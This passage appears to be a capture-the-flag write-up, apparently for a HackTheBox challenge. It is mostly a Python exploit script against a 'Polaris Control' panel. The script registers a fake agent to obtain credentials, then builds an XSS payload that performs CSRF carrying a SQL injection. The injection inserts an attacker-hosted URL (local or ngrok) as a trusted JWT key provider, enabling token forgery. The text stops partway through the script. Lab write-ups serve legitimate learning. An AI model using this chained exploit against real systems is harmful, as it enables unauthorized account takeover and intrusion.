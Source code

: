 I've adapted the exploit script to use the application JWT generation logic to avoid any compatibility issues between tools. We can host the public key on the same server as our JS payload and run the below script:

```python
#!/usr/bin/env python3
import requests, jwt, time, base64, json, urllib.parse
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.backends import default_backend


local = True
proxy = True

HTTP_SERVER = "http://172.17.0.1:5000" if local else "http://5f65-82-11-229-58.ngrok-free.app"

url = "localhost" if local else "94.237.48.19"
port = 1337 if local else 42240

sess = requests.Session()
sess.proxies.update({'http':'http://127.0.0.1:8080'}) if proxy else 0
sess.headers.update({'User-Agent': 'Polaris Control/1.2.3'})


body = {
        "version":    "a",
                "antivirus":  "b",
                "hostname":   "c",
                "platform":   "d",
                "arch":       "e",
                "rights":     "f"
}

# register our "agent", extract the creds
r = sess.post(f"http://{url}:{port}/comms/register", json=body)

ID = r.json()['identifier']
token = r.json()['token']

# okay check, (required?)
r = sess.get(f"http://{url}:{port}/comms/check/{ID}/{token}")
print(r.text)


char_string = "char(" + ", ".join([f'{ord(i)}' for i in f'{HTTP_SERVER}/abcdef']) + ")"

# XSS payload
# CSRF to /panel/home with SQLi payload to add new jku provider
js_source = """
var details = {
    'field': 'identifier',
    'query_eq': 'a\\\\',
    'query_like': ';INSERT INTO trusted_external_token_providers(host_url) VALUES(""" + char_string + """)-- -'
};

var formBody = [];
for (var property in details) {
  var encodedKey = encodeURIComponent(property);
  var encodedValue = encodeURIComponent(details[property]);
  formBody.push(encodedKey + "=" + encodedValue);
}
formBody = formBody.join("&");
```